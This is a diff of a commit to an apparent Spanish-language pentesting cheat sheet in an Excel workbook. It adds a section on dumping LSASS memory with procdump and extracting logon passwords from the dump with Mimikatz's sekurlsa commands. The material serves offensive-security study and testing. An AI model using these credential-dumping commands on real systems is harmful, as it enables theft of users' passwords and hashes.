

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; charts and pictures not drawn; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-B8: (empty)
+B8: lsass
+B8:D8 merged
-B9: (empty)
+B9: Comando
-C9: (empty)
+C9: Descripcion
-D9: (empty)
+D9: Anotaciones
-B10: (empty)
+B10: procdump.exe -na lsass.exe lsassdump --accepteula
-C10: (empty)
+C10: Con Mimikatz cargamos el dump sekurlsa::ninidump "nombre dump" y luego sekurlsa::logonpasswords
-D10: (empty)
+D10: procdump herramienta legitima de microsoft para sacar la sam del lsass
-B14: (empty)
+B14: BOF / IMMUNITY / MONA
+B14:D14 merged
-B15: (empty)
+B15: Comando
-C15: (empty)
+C15: Descripcion
-D15: (empty)
+D15: Anotaciones
```
Also changed, not shown: 128 edited cells and merged cells elsewhere in this sheet, sheet General, sheet Enumeracion & Escaneos, sheet Interceptadores & Web, sheet Inyecciones, sheet Red Team, sheet Reversing & Forensics, cell formats, charts or pictures.
